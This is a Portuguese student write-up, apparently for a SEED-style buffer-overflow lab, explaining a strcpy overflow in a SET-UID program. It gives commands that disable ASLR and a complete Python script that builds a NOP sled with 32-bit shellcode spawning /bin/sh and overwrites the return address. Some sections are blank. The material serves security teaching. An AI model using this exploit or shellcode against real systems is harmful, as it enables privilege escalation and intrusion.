







# Trabalho realizado na Semana #5

## Configuração básica

- Como sugerido executámos os seguintes comandos de forma a criar um ambiente, onde a execução do ataque seja mais fácil, após retirar as contramedidas da alocação de espaço aleatório das posições iniciais dos registos da stack e da heap. Para além disso, como a vitima do nosso programa é um progama SET-UID executamos o segundo comando.

```bash
$ sudo sysctl -w kernel.randomize_va_space=0

$ sudo ln -sf /bin/zsh /bin/sh
```


## Tarefa 1 : Getting Familiar with Shellcode



## Tarefa 2: Understanding the Vulnerable Program

- Nesta segunda tarefa, entendemos que o programa apresentado em stack.c é de facto, vulnerável a ataques buffer overflow, uma vez que neste programa a função `bof` pretende copiar através do comando `strcpy`,que não verifica os limites do tamanho do buffer, o argumento `str`, sendo este um array com um máximo de 517 caracteres, para a variável `buffer`, tendo o espaço de 100 caracteres, lido apartir de um ficheiro `badfile`. Caso a váriavel `str` tenha caracteres a mais que `buffer`, ocorre o erro de Segmentation Fault.



## Tarefa 3: Launching Attack on 32-bit Program (Level 1)

### Investigação

Primeiramente criamos o ficheiro 



Compilar o código




Recorrendo ao gdb, primeiramente, criamos um breakpoint na função bof de forma a que o programa pare nesta função, visto que é onde está presente o problema de buffer overflow. De seguida, anlisamos as posições em memória de `ebp` e do `buffer` e, por fim, calculamos a diferença entre estes, de forma a perceber o quanto distam.


### Criar os ataques

```python
#!/usr/bin/python3
import sys

# Shellcode 32-bit
shellcode= (
 "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
"\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
"\xd2\x31\xc0\xb0\x0b\xcd\x80"   
).encode('latin-1')

# Encher o conteúdo com NOP's
# Salto não necessita de ser preciso, pode ser feito para posições anteriores à da localização exata do código malicioso
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Por o Shellcode algures na Stack
# Como o restantes locais reescritos pelo buffer estarão com o valor da instrução NOP, torna-se mais fácil por o Shellcode no final do payload e apontar o return adress para algures nesse espaço
start = 517 - len(shellcode)                
content[start:start + len(shellcode)] = shellcode


# 0xFFFFCB58 -> posição do $ebp quando debugging
# 200 -> salto para suportar aumento do valor dos registos quando executado normalmente
ret    = 0xFFFFCB58 + 200         

# 124 -> Distância entre buffer e ebp
# 4 -> Tamanho do ebp (return address encontra-se depois)
offset = 124 + 4 

L = 4     # Utilizar 4 para registos de 32-bits e 8 para registos de 64-bit
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Escrever o conteúdo no ficheiro
with open('badfile', 'wb') as f:
  f.write(content)
```






